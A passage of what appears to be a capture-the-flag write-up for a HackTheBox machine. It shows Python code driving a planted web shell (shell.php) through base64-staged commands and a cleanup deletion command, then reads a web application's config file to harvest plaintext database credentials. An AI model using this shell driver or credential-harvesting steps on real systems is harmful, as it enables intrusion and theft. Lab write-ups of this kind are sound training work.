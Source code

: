         def do_toggle_prompt(self, args):
            if self.prompt == "":
                self.prompt = "scavenger> "
            else:
                self.prompt = ""

        def default(self, args):
            b64cmd = base64.b64encode(f"{args.rstrip()}\n".encode("utf-8")).decode("utf-8")
            stage_cmd = f"echo {b64cmd} | base64 -d > {self.stdin}"
            self.run_raw_command(stage_cmd)
            time.sleep(self.interval * 1.1)

        def run_raw_command(self, cmd, timeout=50):
            try:
                return requests.get(
                    "http://sec03.rentahacker.htb/shell.php",
                    params={"hidden": cmd},
                    timeout=timeout,
                ).text
            except requests.exceptions.ReadTimeout:
                pass


    term = Term()
    try:
        term.cmdloop()
    except KeyboardInterrupt:
        term.run_raw_command("rm /dev/shm/output*i /dev/shm/input*")
        print()



In this shell, I can `su`, change directories, etc, as it is a single
running `sh` process.

## FTP Accesses

### Enumeration

Looking around the box, I find two sets of credentials that are useful
The first is in the current user's home directory, in the website
install, there's credentials for the database:



    scavenger> pwd
    /home/ib01c03/sec03/config

    scavenger> cat config_inc.php
    <?php
    $g_hostname               = 'localhost';
    $g_db_type                = 'mysqli';
    $g_database_name          = 'ib01c03';
    $g_db_username            = 'ib01c03';
    $g_db_password            = 'Thi$sh1tIsN0tGut';
